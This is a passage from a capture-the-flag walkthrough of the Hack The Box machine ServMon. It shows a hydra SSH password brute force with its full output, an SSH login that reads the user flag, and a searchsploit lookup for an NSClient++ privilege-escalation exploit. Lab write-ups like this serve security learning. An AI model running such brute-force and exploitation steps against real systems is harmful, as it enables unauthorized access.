 As there is other services, we try our seven password against the SSH service.
We have two users `nathan` and `nadine`. Using `hydra` we easily find the creds
for nadine's SSH account.

    :::text
    kali@kali:~/pown/htb_servmon$ hydra -l nathan -P pass ssh://10.10.10.184
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 12:28:14
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
    [DATA] attacking ssh://10.10.10.184:22/
    1 of 1 target completed, 0 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-16 12:28:19
    kali@kali:~/pown/htb_servmon$ hydra -l nadine -P pass ssh://10.10.10.184
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-16 12:28:26
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
    [DATA] attacking ssh://10.10.10.184:22/
    [22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-16 12:28:35

We can the connect to the server using SSH and get the user flag.

    :::text
    kali@kali:~/pown/htb_servmon$ ssh nadine@10.10.10.184
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.

    nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt
    e9aa044247ca285bb777782d7b0cfdfd


# Root

For the root part we need to exploit the NSClient on port 8443 as there is a
privilege escalation vulnerability.

    :::text
    kali@kali:~$ searchsploit NSclient
    ---------------------------------------------------- ----------------------------------------
    Exploit Title                                      |  Path
                                                        | (/usr/share/exploitdb/)
    ---------------------------------------------------- ----------------------------------------
    NSClient++ 0.5.2.35 - Privilege Escalation          | exploits/windows/local/46802.txt
    ---------------------------------------------------- ----------------------------------------
    Shellcodes: No Result
    kali@kali:~$ cat /usr/share/exploitdb/exploits/windows/local/46802.txt
    Exploit Author: bzyo
    Twitter: @bzyo_
    Exploit Title: NSClient++ 0.5.2.35 - Privilege Escalation
    Date: 05-05-19
    Vulnerable Software: NSClient++ 0.5.2.35
    Vendor Homepage: http://nsclient.org/
    Version: 0.5.2.35
    Software Link: http://nsclient.org/download/
    Tested on: Windows 10 x64
